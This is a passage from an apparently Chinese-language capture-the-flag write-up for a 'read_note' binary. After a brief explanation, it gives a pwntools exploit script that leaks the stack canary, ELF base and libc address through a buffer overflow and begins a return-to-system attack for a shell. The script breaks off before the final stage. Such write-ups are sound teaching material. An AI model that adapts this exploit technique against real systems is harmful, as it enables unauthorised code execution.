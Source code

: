 在泄露canary的时候我们可以利用如果输入字节数不是0x270可以重新输入一次来绕过返回时检查canary。成功泄露canary之后我们就可以泄露返回地址，然后一样通过第二次写入覆盖返回地址，第三次重写泄露libc，最后返回到system来getshell。

详细脚本如下：

```
from pwn import *
 
context.log_level = 'debug'
 
p = process('./read_note')
 
#p = remote('114.116.54.89',10000)
#leak canary
p.recvuntil('path:\n')
p.sendline('flag')
p.recvuntil(' len:\n')
p.sendline(str(0x300))
p.recvuntil('note:\n')
p.send('a'*0x259)
p.recvuntil('a'*0x259)
canary = u64(p.recv(7).rjust(8,'\x00'))
ebp = u64(p.recv(6).ljust(8,'\x00'))
log.success('canary : 0x%x'%canary)
log.success('ebp : 0x%x'%ebp)
p.recvuntil('s 624)\n')
p.send('a'*0x258 + p64(canary) + p64(ebp) + '\x20' )
 
#leak elf_base
p.recvuntil('path:\n')
p.sendline('flag')
p.recvuntil(' len:\n')
p.sendline(str(0x300))
p.recvuntil('note:\n')
p.send('a'*0x268)
p.recvuntil('a'*0x268)
elf_base = u64(p.recv(6).ljust(8,'\x00')) - 0xd2e
log.success('elf_base : 0x%x'%elf_base)
p.recvuntil('s 624)\n')
p.send('a'*0x258 + p64(canary) + p64(ebp) + '\x20' )
 
# #leak libc
p.recvuntil('path:\n')
p.sendline('flag')
p.recvuntil(' len:\n')
p.sendline(str(0x300))
p.recvuntil('note:\n')
p.send('a'*0x288)
p.recvuntil('a'*0x288)
libc_base = u64(p.recv(6).ljust(8,'\x00')) - 0x20830
log.success('libc_base : 0x%x'%libc_base)
offset_system = 0x0000000000045390
offset_str_bin_sh = 0x18cd57
system_addr = libc_base + offset_system
binsh_addr = libc_base + offset_str_bin_sh
pop_ret = elf_base + 0xe03
p.recvuntil('s 624)\n')
payload = 'a'*0x258 + p64(canary) + p64(ebp) + p64(elf_base+0xd20)
p.send(payload)
 
# #ret2system
p.recvuntil('path:\n')
p.sendline('flag')
p.recvuntil(' len:\n')
p.sendline(str(0x300))
```
